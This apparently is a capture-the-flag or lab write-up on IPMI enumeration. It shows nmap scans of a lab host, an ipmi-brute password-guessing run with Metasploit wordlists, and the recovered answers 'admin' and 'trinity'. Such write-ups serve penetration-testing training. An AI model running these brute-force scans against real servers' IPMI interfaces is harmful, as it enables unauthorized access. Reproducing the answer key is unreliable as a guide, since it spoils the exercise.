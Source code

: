 # IPMI

### What username is configured for accessing the host via IPMI?

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sU --script ipmi-version -p 623 10.129.202.5          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-15 05:17 EST
Nmap scan report for 10.129.202.5 (10.129.202.5)
Host is up (0.27s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version: 
|   Version: 
|     IPMI-2.0
|   UserAuth: password, md5, md2, null
|   PassAuth: auth_msg, auth_user, non_null_user
|_  Level: 1.5, 2.0
```

we use nmap script to brute force the user and password

```bash
sudo nmap -sU --script ipmi-brute -p 623 10.129.202.5
#sudo nmap -sU --script ipmi-brute --script-args userdb=/usr/share/metasploit-framework/data/wordlists/ipmi_users.txt passdb=/usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt -p 623 10.129.202.5
PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-brute: 
|   Accounts: 
|     admin:trinity - Valid credentials
|_  Statistics: Performed 12236 guesses in 600 seconds, average tps: 18.2
```

admin

### What is the account's cleartext password?

trinity
